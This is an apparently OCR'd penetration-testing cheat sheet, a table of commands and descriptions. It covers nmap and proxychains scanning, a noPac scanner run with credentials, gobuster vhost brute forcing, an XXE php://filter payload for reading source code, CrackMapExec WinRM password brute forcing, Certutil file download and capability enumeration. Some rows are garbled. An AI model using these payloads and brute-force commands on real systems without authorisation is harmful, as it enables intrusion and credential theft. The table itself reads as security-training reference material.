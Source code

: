 | ``nmap -sL 172.16.7.60`` | Get hostname of a host |

| `**Certutil**` | Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto wget for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage. |

| ``db_nmap`` | Use Nmap and place results in a database. (Normal Nmap syntax is supported, such as –sT –v –P0.) |

| ``nmap -sT -p22,3306 <IPaddressofTarget>`` | Nmap command used to scan a target for open ports allowing SSH or MySQL connections. |

| ``nmap -v -sV -p1234 localhost`` | Nmap command used to scan a host through a connection that has been made on local port `1234`. |

| ``proxychains nmap -v -sn 172.16.5.1-200`` | Used to send traffic generated by an Nmap scan through Proxychains and a SOCKS proxy. Scan is performed against the hosts in the specified range `172.16.5.1-200` with increased verbosity (`-v`) disabling ping scan (`-sn`). |

| ``proxychains nmap -v -Pn -sT 172.16.5.19`` | Used to send traffic generated by an Nmap scan through Proxychains and a SOCKS proxy. Scan is performed against 172.16.5.19 with increased verbosity (`-v`), disabling ping discover (`-Pn`), and using TCP connect scan type (`-sT`). |

| ``msf6 > search rdp_scanner`` | Metasploit search that attempts to find a module called `rdp_scanner`. |

| ``sudo nmap -v -A -iL hosts.txt -oN /home/User/Documents/host-enum`` | Performs an nmap scan that with OS detection, version detection, script scanning, and traceroute enabled (`-A`) based on a list of hosts (`hosts.txt`) specified in the file proceeding `-iL`. Then outputs the scan results to the file specified after the `-oN`option. Performed from a Linux-based host |

| ``sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap`` | Runs `scanner.py` to check if a target system is vulnerable to `noPac`/`Sam_The_Admin` from a Linux-based host. |



## Execution

### Web-based

| Command | Description |
| ------- | ----------- |

| `[Hacktricks](https://book.hacktricks.xyz/)` | The GOAT resource |

| ``ssh <user>@<FQDN/IP> -o PreferredAuthentications=password`` | Enforce password-based authentication. |

| ``gobuster vhost -w /path/to/wordlist.txt -u http://example.com --append-domain`` | Gobuster bruteforce, --append-domain needed to search for higher level domain. E.G LIST.example.com |

| ``ctrl+U`` | View page source (in Firefox) |

| ``<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">`` | Read PHP source code with base64 encode filter |

| ``crackmapexec winrm <ip> -u user.list -p password.list`` | Uses CrackMapExec over WinRM to attempt to brute force user names and passwords specified hosted on a target. |

| `**Command**` | **Description** |

| `---` | --- |

| ``find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \; `` | Find applications with capabilities set within specific path |
